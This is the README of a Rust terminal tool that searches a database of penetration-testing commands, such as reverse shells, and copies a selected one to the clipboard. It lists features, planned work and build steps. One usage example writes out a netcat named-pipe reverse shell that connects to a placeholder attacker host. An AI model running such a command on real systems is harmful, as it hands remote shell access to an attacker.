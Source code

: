 
The goal of this project is to create an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) or something to run in the terminal that works like [Rev Shells](https://revshells.com/) or the [HackTools](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) browser plugin. This started as a project to help improve my proficiency with Rust. I'm still new to it so I'm sure there are some poor Rust coding practices but I will be refactoring the code as I go.  I'm currently using the sqlite database that [RTFM](https://github.com/leostat/rtfm) uses but that needs some updating and new syntax needs to be added since that hasn't been touched in almost 6 years.  

## Working Features
- **note** On kali the backspace/delete key requires Ctrl+Backspace/Delete to delete previous typed characters in terminal.  
- Ctrl+r to dynamically search the RTFM database for commands as you type and display those in a selectable list.  Works similarly to using Ctrl+r to search through terminal history.
- Ctrl+h to display a history of previously selected commands from the current session in a selectable list. 
- up/down arrow keys to highlight a command from the current search or from the history. Pressing return copies that command to the clipboard.  
- 'info' displays full information on the currently selected command.  'full information' is very sparse at the moment.  
- 'add -c <command>' to add a new command to the database.  optional: -d to add a comment/description with the command.
- 'update <column> <content>' to update a database column in the currently selected command.  At the moment the only columns to update are 'command', 'comment' and 'author'. Examples: 'update comment spawn a pty via python3', 'update author greg scharf', 'update command rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LHOST] [LPORT] >/tmp/f'.  

## Currently Working On
- 'set' command for variable replacement when selecting a command that has placeholders for LHOST, LPORT, etc.
- In 'info' show variables that need to be set and if they are set display their current value.
- Need to do some sed magic on the database build files to make variable names consistent and then rebuild the database.

## To Add
- [ ] Set variables in the CLI to automatically replace placeholders in commands for things like Remote Host, Local Host, Local Port, etc similar to msfconsole.  
    - Need to standardize the naming of placeholders that are already in the RTFM database because sometimes the local host IP is represented as [me],[IP],[LHOST] or [lip].
- [ ] Add config file to store user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands in the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [ ] Add 'env' command to display all variables set in the user's config file
- [ ] Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.
- [ ] Make use of tags already implemented in the database to display selectable list of grouped items. For example, 'reverse shells linux' to display all commands in the database grouped under that tag.  tags already in the database are probably a little too general to be useful e.g. 'bash', 'windows'.  Also need a function to display all tags in the database as a selectable list.
- [x] Add ability to update the database columns of the currently selected command.
- [x] Display command's comment and any other info after it has been selected.
- [x] Add a history feature, ctrl+h or type 'history' to show a selectable list of previously copied commands.
- [x] Show currently selected command in prompt, type info to show all columns to allow for easier updating of the database within the CLI.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Update the database with newer commands for things like Bloodhound,ffuf,feroxbuster,Rubeus,Crackmapexec,Chisel,SSHuttle, etc.
- [ ] Add a better method for generating help content with the prettytable crate.
- [ ] Allow selection mode to wrap up or down
- [ ] Fix errors that occur when attempting to create a statically linked linux release
- [ ] Get Windows version working
- [ ] Add search capability for text based/markdown notes.    
    - Root directory for user's notes will be supplied in a CLI variable.
- [ ] Use pre-existing 'refs' table to link to markdown notes and display notes in terminal when selected... there is probably a crate to display markdown.

## To Fix
- [ ] 5-26-23: Clean up code again before it becomes too unruly.
- [x] Termion inconsistent colors between Arch and Ubuntu.
- [ ] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
    - Needs a much better solution
- [ ] Kali backspace/delete key requires Ctrl+Backspace/Delete to delete typed character preceding cursor.    
- [ ] Issues with Sys crate when attempting to build a Windows executable.
- [ ] Termion screen refresh on MAC M1 causes screen to flicker when arrowing through commands.

## Build/Install

### Linux

To build and use until I add release builds... if the linker fails during build see Issues below.
```bash
git clone https://github.com/gregscharf/RTFM-Redox.git
cargo run

# Or if you want to build a release
cargo build -r
mkdir /opt/redox
cp target/release/redox /opt/redox/
cp snibs.db /opt/redox/
cd /opt/redox
./redox
```

**Issues**
When building on Debian distributions: If the linker fails during build, install the following packages.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```

### Windows
**Note**: Building on Windows is not currently working because of an issue I need to resolve related to the Sys crate???
